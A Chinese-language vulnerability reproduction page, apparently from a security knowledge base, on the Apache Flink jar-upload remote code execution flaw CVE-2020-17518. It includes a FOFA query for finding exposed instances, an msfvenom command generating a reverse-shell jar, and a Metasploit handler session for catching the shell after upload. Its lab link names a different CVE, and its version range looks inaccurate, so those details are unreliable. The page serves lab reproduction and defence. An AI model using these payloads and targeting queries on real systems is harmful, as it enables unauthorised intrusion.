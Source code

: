 ```yaml
---
title: Apache Flink upload 远程命令执行漏洞 CVE-2020-17518
---
```


# Apache Flink upload 远程命令执行漏洞 CVE-2020-17518

## 漏洞描述

近日,有安全研究员公开了一个Apache Flink的任意Jar包上传导致远程代码执行的漏洞，攻击者通过漏洞可以获取系统权限

## 漏洞影响

<a-checkbox checked>Apache Flink <= 1.9.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBcGFjaGUgRmxpbmsi">FOFA: app="Apache Flink"</a-button>
</a-checkbox>

## 环境搭建

<a-alert type="success" message="https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17519" description="" showIcon>
</a-alert>

</br>

![06d235d4-965d-44e0-91c0-dc69b97bf48d](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/06d235d4-965d-44e0-91c0-dc69b97bf48d.png)

## 漏洞复现

点击查看文件上传页面

![bb05ef9f-f86f-4bb5-bbcb-c13424d7aca4](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/bb05ef9f-f86f-4bb5-bbcb-c13424d7aca4.png)

打开MSF 生成一个 jar 木马

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx  LPORT=4444 -f jar > test.jar
```

点击 Add 上传 jar 文件

![1fcaa45f-0492-4411-b14f-e4554cf84e5b](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1fcaa45f-0492-4411-b14f-e4554cf84e5b.png)

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/shell/reverse_tcp
payload => java/shell/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
lhost => xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```

![3def5e8c-6590-4ecd-8b61-dfcb095bdaa0](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/3def5e8c-6590-4ecd-8b61-dfcb095bdaa0.png)

点击下 submit

![681f48a7-3501-4f52-8532-5efddcc0074f](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/681f48a7-3501-4f52-8532-5efddcc0074f.png)

![16969b72-8db4-42f8-a0e3-b02022ab5f5b](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/16969b72-8db4-42f8-a0e3-b02022ab5f5b.png)